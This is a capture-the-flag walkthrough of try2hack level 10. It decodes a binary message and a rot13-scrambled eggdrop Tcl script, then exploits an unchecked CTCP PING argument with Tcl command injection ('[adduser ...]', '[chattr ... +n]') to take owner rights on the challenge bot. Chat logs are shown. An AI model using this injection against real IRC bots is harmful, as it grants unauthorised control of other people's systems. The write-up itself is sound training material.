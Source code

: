#### Level 10

After you have done level 9 you get an IRC channel name and password. After joining you receive a binary welcome message.
```
0100111001101001011000110110010100100000011010100
110111101100010001011100010000001001110011011110111011100100000011101000111100101110000011001010010000
000100111001011110110110101110011011001110010000001010100010100100101100100110010010010000100000101000
011010010110010000001110011011010000110111101110111011000100111010101100111001001110010000001110100011
011110010000001110011011001010110010100100000011101000110100001100101001000000110001001
```

Just go to my favorite binary encoding/decoding site http://www.nickciske.com/tools/binary.php and decode it. 

The result:
```Nice job. Now type '/msg TRY2HACK showbug' to see the bug```

As you can see, you get a command that you must write to the bot to show you the bug. This is what the bot writes back:
```
ovaq pgpe - CVAT pgpe:cvatercyl
cebp pgpe:cvatercyl {avpx hubfg unaq qrfg xrl net} {
frg qhe [rkce [havkgvzr] - $net]
chgfrei "ABGVPR $avpx :Lbhe cvat ercyl gbbx $qhe frpbaqf"}
```

It looked like a script, but the characters were all messed up, so thought this was rot13, which replaces all chars with the char 13 places to the right in the alphabet.
So the only thing I needed was to rot13 it again (26 chars in the alphabet. 13+13):
```php
<?php

print str_rot13('ovaq pgpe - CVAT pgpe:cvatercyl
cebp pgpe:cvatercyl {avpx hubfg unaq qrfg xrl net} {
frg qhe [rkce [havkgvzr] - $net]
chgfrei "ABGVPR $avpx :Lbhe cvat ercyl gbbx $qhe frpbaqf"}');

?>
```

Which results in:
```
bind ctcr - PING ctcr:pingreply
proc ctcr:pingreply {nick uhost hand dest key arg} {
    set dur [expr [unixtime] - $arg]
    putserv "NOTICE $nick :Your ping reply took $dur seconds"}
```
After almost 24 hours, x number cups of coffee, trying and failing, hours googling and reading on eggdrop I finally made it!
The argument sent with the ping are in most irc clients a timestamp, but you can send what you want.
The bot lacks of security, it doesn't check $arg for bad code. Time to exploit.

I tried sending raw data with the /quote command but that didn't work.
I then come across the /nctcp command in Irssi (/ctcpreply for mIRC) which I noticed sent some stuff along with the data that seemed to make a diffrence. I think it was some UTF \x00\x01 thing.

Worked:
```
/nctcp LEVEL10-xxx PING [adduser yournick *!yourident@*]
/nctcp LEVEL10-xxx PING [chattr yournick +n]
```

I changed the password for the bot to '123456' by doing `/msg LEVEL10-xxx pass 123456`

```
[notice(LEVEL10-605)] PING [adduser asdf *!qwer@*]
-LEVEL10-605(try2hack@try2hack.bot) - Your ping reply took 123456789 seconds
[notice(LEVEL10-605)] PING [chattr asdf +n]
-LEVEL10-605(try2hack@try2hack.bot) - Your ping reply took 123456789 seconds
<asdf> pass 123456
-LEVEL10-605(try2hack@try2hack.bot) - Password changed to '123456'
```

Then start a dcc chat with the bot `/dcc chat LEVEL10-xxx`, then the bot will msg you with the URL to level 11, along with this:

```
<LEVEL10-605> Enter your password.
<asdf> 123456
<LEVEL10-605>
<LEVEL10-605> Connected to LEVEL10-0, running eggdrop v1.6.19
<LEVEL10-605>
<LEVEL10-605> Local time is now 19:43
<LEVEL10-605>
<LEVEL10-605> NOT! Welcome in LEVEL10-0, asdf!
<LEVEL10-605> ****************************************************
<LEVEL10-605> *             AUTO LOG OUT!                        *
<LEVEL10-605> ****************************************************
<LEVEL10-605>
<LEVEL10-605> -=- poof -=-
<LEVEL10-605> You've been booted from the bot by LEVEL10-0
-!- Irssi: Closing query with =LEVEL10-605
```